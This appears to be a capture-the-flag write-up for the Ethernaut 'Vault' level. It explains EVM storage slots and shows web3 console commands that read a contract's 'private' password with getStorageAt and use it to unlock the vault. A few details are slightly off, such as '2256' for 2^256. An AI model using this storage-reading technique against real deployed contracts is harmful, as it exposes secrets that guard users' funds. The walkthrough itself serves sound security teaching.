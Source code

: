 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel8.svg">

# Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

Challange's message.

>Unlock the vault to pass the level!

We have an contract which has type of bool variable called **locked** and type of **bytes** variable named **_password_** that defined in constructor(). What is more, there is **unlock()** function which checks _password we entered. If we entered correct password, unlocked will be **false** so we will beat this level.

## Smart Contract's Storage

Each smart contract running in the Ethereum Virtual Machine (EVM) maintains state in its own permanent storage. This storage can be thought of as a very large array, initially full of zeros. Each value in the array is 32-bytes wide, and there are 2256 such values. A smart contract can read from or write to a value at any location. That’s the extent of the storage interface.

<img src="https://programtheblockchain.com/storage/storage.png">

```solidity
contract StorageTest {
    uint256 a;
    bytes32 b;
}
```

In the above code:
+ ```a``` is stored at slot 0. 
+ ```b``` is stored at slot 1.

<img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Vault/img/storage.png">

## Accessing Private Variabes In Storage



# Subverting

```shell
await contract.locked()
true
```

```shell
var pass = await web3.eth.getStorageAt(contract.address,1,console.log)
```

```shell
await web3.utils.hexToUtf8(pass)
'A very strong secret password :)'
```
```shell
await contract.unlock(pass)
```
```shell
await contract.locked()
false
```

**_by wasnyps_**
